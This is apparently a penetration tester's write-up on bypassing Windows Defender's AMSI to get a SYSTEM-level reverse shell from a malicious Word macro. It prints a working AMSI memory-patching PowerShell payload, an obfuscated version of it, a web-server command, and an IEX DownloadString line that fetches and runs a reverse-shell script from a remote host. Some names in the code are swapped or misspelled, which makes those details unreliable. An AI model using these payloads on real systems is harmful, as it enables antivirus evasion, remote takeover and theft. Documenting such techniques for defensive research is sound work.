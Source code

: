 ## Table of Contents

- [**Outline**](#section-0)
- [**Windows Defender  Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Memory Patching & Obfuscation**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline  {#section-0}

The goal of this write-up is to evade the most up to date Windows Defender 11 and lancuh a reverse shell from Micorosoft Word Documnet . The objective was to gain a Remote Code Execution (RCE) as NT/Authority System as the target opnes the malicious Word document.

![](/assets/AV/diagram.png)  

# Windows Defender   Evasion{#section-1}
Windows Defender 11 is Microsoft's built-in antivirus and antimalware solution. It provides real-time protection against various threats like viruses, ransomware, spyware, and other malicious software. Defender scans files, monitors activities, and offers firewall protection, all to help safeguard your system and data from potential security risks. Additionally, it includes features such as cloud-based protection and regular updates to ensure comprehensive defense against evolving threats.


A Word document VBA macro is a script embedded within a Word document that uses Visual Basic for Applications (VBA) to automate tasks or perform certain functions within the document. Macros can execute commands, manipulate data, or interact with external systems.

In the context of Word document macros, a malicious macro might attempt to establish this reverse shell connection, allowing an attacker to control the compromised system remotely. This is often used as part of cyberattacks to gain unauthorized access or control over a victim's computer.



![](/assets/AV/FinalMacro.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through PowerShell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI successfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching  {#section-3}
In order to bypass AMSI, the tester utilized the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"

using System;
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code. This effectively avoides AMSI from scanning the PowerShell code. This method allows the attacker's  to execute PowerShell code in memory without triggering AMSI's detection.

However, it is essential to acknowledge that the above memory patching payload might be flagged by ASMI before it could patch the `ASMIScanBuffer.dll` itself. Thus it is necessary to implement proper obfuscation methodologies before delivering the payload. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

The below code snippet contains a payload that has undergone multiple layers of obfuscation.
```bash
$GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11evXUFDQD589KWR9QtwKq2Qg0mE6uMREzx7iRIZJOK2qLeZKpRqZslro01qcJC03aScqnLmSiSVJ6AIwZKGZF1aEaYGjS13PQyKmRdpmc2yMyISCN1yYuQCBZkF5i2LKBOpm7FcEshpWYz6QTzs9m5WNt6PONU73eoXpVQZKAbDUydPdN2ZdTeNdkOjDZHErYeh5b0Tqq9N = @"
// thing 
// using syStEm.CoLLeCtiONS.ArrAyLiST;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
      [DllImport("kernel32")]
      public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("kernel32")]
       public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11

```


After implementing effective obfuscation techniques, the payload is dropped in the PowerShell command prompt. The `ASMIScanBuffer.dll` returns an `Invalid Argument` and ends the AMSI program without being able to scan any code. With AMSI neutralized, the tester proceeded by hosting a Python web server on port 8443 to serve a reverse PowerShell scrip.
```bash
python3 -m http.server 8443
```

Taking advantage of the payload, the tester successfully initiated a reverse TCP connection via PowerShell, executing the script in memory:
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
Consequently, the tester established Remote Code Execution (RCE) with NT/Authority System privileges.
![](/assets/AV/system.png)  

## Credits & Reference  {#section-4}
[Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass) & [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
